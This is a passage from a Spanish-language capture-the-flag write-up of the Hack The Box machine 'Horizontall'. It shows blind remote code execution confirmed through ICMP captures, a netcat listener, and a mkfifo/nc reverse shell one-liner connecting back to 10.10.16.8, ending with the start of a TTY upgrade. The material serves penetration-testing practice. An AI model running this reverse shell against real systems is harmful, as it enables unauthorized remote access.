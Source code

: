 ```
```

Nos ponemos en `escucha` en espera de `trazas icmp` y efectivamente `tenemos` un `RCE`

```
# sudo tcpdump -i tun0 icmp                
[sudo] password for justice-reaper: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:10:09.152890 IP api-prod.horizontall.htb > 10.10.16.8: ICMP echo request, id 4371, seq 1, length 64
16:10:09.152933 IP 10.10.16.8 > api-prod.horizontall.htb: ICMP echo reply, id 4371, seq 1, length 64
16:10:10.154908 IP api-prod.horizontall.htb > 10.10.16.8: ICMP echo request, id 4371, seq 2, length 64
16:10:10.154946 IP 10.10.16.8 > api-prod.horizontall.htb: ICMP echo reply, id 4371, seq 2, length 64
16:10:11.156630 IP api-prod.horizontall.htb > 10.10.16.8: ICMP echo request, id 4371, seq 3, length 64
16:10:11.156651 IP 10.10.16.8 > api-prod.horizontall.htb: ICMP echo reply, id 4371, seq 3, length 64
^C
6 packets captured
6 packets received by filter
0 packets dropped by kernel
```

Por lo tanto vamos a mandarnos una `reverse shell` a nuestro equipo, lo primero es ponernos en escucha mediante `netcat` por el puerto `443`

```
# nc -nlvp 443
```

Nos mandamos una `reverse shell` a nuestro equipo

```
$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.8 443 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.95.96] 53600
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```
